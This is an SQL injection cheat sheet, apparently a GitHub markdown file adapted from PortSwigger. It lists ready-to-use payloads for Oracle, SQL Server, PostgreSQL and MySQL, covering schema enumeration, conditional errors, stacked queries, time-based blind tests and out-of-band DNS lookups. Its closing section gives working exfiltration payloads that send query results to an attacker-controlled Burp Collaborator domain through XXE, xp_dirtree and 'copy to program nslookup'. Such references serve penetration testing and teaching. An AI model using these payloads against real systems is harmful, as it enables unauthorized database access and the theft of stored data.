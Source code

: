 # SQLi Cheatsheet

**NOTE: Some of the information here have been taken from:**

- [PortSwigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### String Concatenation:
- Oracle 	`'foo'||'bar'`
- Microsoft 	`'foo'+'bar'`
- PostgreSQL 	`'foo'||'bar'`
- MySQL
  - `'foo' 'bar'` [Note the space between the two strings]
  - `CONCAT('foo','bar')`
  - `CONCAT(col1,col2...)`

### Substring
**Remember: Index starts from 1**
- Oracle `SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL `SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`

### Comment
- Oracle 	`--comment`
- Microsoft
  - `--comment`
  - `/\*comment*/`
- PostgreSQL
  - `--comment`
  - `/\*comment*/`
- MySQL
  - `#comment`
  - `-- comment` *[Note the space after the double dash]*
  - `/\*comment*/`

### Database version
- Oracle
  - `SELECT banner FROM v$version`
  - `SELECT version FROM `v$instance
- Microsoft	`SELECT @@version`
- PostgreSQL `SELECT version()`
- MySQL	`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL
  **Information (from [here](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)):**

    - *'information_schema' is the database that contains all information about all the database, table, column, etc names.*

    - *'**information_schema.tables**' table contain useful columns that show which table belongs to which database (and vice-versa):*
    
        - table_schema
        (database name)
        - table_name
        - table_rows
        (number of rows of table)
    - *'**information_schema.columns**' contain useful columns that show which column belongs to which table (and vice-versa)*:

      - table_schema
      (database name)
      - table_name
      - column_name

  **Queries:**

  - `SELECT * FROM information_schema.tables`
  - SELECT * FROM `information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Microsoft `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- MySQL `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- Oracle -	*Does not support batched queries.*
- Microsoft `QUERY-1-HERE; QUERY-2-HERE`
- PostgreSQL 	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL - *Does not support batched queries.*

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle 	`dbms_pipe.receive_message(('a'),10)`
- Microsoft `WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT pg_sleep(10)`
- MySQL	`SELECT sleep(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

- **Oracle**
 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`
- **Microsoft**
  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
- **PostgreSQL**
  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
- **MySQL**
  *The following techniques work on Windows only:*
    - `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`
    - `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data. 

- **Oracle**
` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

- **Microsoft**
`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

- **PostgreSQL**
  ```
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```

- **MySQL**
  *The following technique works on Windows only:*
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

